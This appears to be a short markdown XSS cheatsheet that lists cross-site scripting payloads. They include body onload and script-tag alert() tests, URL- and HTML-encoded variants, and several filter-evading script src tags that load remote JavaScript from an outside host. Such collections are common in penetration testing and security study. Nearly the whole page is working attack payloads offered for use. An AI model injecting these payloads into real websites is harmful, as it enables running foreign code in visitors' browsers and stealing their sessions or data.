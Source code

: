 XSS Cheatsheet

# XSS Cheatsheet

Resources: 
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/xss-without-parentheses-and-semi-colons

---

XSS Payloads references below:
- https://aerst.one/p/xss.html
- https://thegetch.github.io/x

---

### In `<body>` tag:
```
<body onload=alert('test1')>
```

### In `<script>` tags:
```
<script>alert(1);</script>
```
```
<script>alert("XSS");</script>
```
- URL encoded:`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3b%3c%2f%73%63%72%69%70%74%3e`
- HTML encoded:`&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x22;&#x58;&#x53;&#x53;&#x22;&#x29;&#x3b;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;`

No quotes:
```
<script src=//thegetch.github.io/x></script>
```

Added spaces:
```
<script src = //thegetch.github.io/x></script>
```

With quotes:
```
<script src="//thegetch.github.io/x"></script>
```

Other alternatives:
```
<script x src = //thegetch.github.io/x></script>
```
```
< SCRIPT X SRC = //THEGETCH.GITHUB.IO/X></SCRIPT>
```
